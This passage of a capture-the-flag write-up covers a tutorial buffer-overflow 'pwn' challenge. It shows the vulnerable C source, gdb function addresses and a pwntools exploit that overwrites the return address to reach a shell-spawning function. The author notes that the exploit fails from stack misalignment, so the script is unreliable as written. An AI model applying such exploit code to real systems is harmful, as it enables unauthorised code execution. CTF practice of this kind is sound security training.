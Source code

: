 ## 3. Pwn

Tutorial challenge. Basic buffer overflow. Source code:

```C
#include <stdio.h>
#include <stdlib.h>

void win(void) {
    puts("how did you get here?");
    system("/bin/sh");
}

void func(void) {
    char buf[16];
    scanf("%s", buf);
}

int main(void) {
    func();
    return 0;
}
```


in gdb output of info functions:

```C
0x0000000000401170  frame_dummy
0x0000000000401176  win
0x0000000000401195  func
0x00000000004011ba  main
```

use info registers to get registers.

exploit:
```python
from pwn import *


#conn = remote('warmup.ecsc25.hack.cert.pl', 5210)
conn = process('./server', tty=True)

payload = b"A" * 24 + p64(0x401176)

conn.sendline(payload)
conn.interactive()

```

**Warning**: This solution is wrong (causes segmentation fault) because of stack alignment: https://ir0nstone.gitbook.io/notes/binexp/stack/return-oriented-programming/stack-alignment

You may get "how did you get here?" printed but you will not get a shell.

